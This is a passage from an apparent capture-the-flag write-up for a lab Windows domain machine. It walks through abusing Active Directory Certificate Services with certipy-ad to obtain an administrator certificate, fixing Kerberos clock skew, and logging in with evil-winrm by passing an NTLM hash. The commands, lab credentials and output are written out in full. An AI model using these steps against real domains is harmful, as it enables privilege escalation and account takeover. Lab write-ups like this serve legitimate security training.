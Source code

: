 ```sh
certipy-ad ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -issue-request 13
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Successfully issued certificate
```

> If at this stage you get a [-] Got access denied trying to issue certificate error, re-run the command where we added Raven as a manager. The box's cleanup scripts will likely have restored the initial permissions.

Finally, we retrieve the issued certificate with the req command and the `-retrieve <requestID>` parameter.

```sh
certipy-ad req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip
10.10.11.236 -ca manager-dc01-ca -retrieve 13
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Rerieving certificate with ID 13
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

With the administrator's PFX file in our possession, we can now utilize it for authentication. Upon running the auth command, we encounter the error "`KRB_AP_ERR_SKEW (Clock skew too great)`".

```sh
certipy-ad auth -pfx administrator.pfx
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError:
KRB_AP_ERR_SKEW(Clock skew too great)
```

The "`KRB_AP_ERR_SKEW`" error occurs when there is a significant time difference between the client and the KDC servers, impacting the Kerberos authentication process. 

Resolving this issue involves synchronizing our machine's clock with the server's.
To do so, we need to disable the "Automatic Date & Time" setting in our machine's settings and run the following command to synchronize our clock:

```sh
sudo ntpdate -s manager.htb
```

Running the command again successfully dumps the admin hash.

```sh
evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
```


